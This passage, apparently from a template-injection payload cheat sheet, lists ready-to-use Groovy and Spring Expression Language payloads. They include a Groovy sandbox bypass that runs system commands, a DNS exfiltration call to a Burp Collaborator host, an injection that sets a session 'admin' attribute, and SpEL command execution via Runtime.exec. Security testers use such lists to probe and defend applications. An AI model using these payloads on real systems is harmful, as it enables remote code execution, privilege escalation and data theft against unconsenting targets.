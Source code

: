 ### Groovy - Sandbox Bypass

```groovy
${ @ASTTest(value={assert java.lang.Runtime.getRuntime().exec("whoami")})
def x }
```

or

```groovy
${ new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x") }
```

---

## Spring Expression Language

[Official website](https://docs.spring.io/spring-framework/docs/3.0.x/reference/expressions.html)

> The Spring Expression Language (SpEL for short) is a powerful expression language that supports querying and manipulating an object graph at runtime. The language syntax is similar to Unified EL but offers additional features, most notably method invocation and basic string templating functionality.

### SpEL - Basic Injection

```java
${7*7}
${'patt'.toString().replace('a', 'x')}
```

### SpEL - DNS Exfiltration

DNS lookup

```java
${"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","xxxxxxxxxxxxxx.burpcollaborator.net")}
```

### SpEL - Session Attributes

Modify session attributes

```java
${pageContext.request.getSession().setAttribute("admin",true)}
```

### SpEL - Command Execution

- Method using `java.lang.Runtime` #1 - accessed with JavaClass

    ```java
    ${T(java.lang.Runtime).getRuntime().exec("COMMAND_HERE")}
    ```
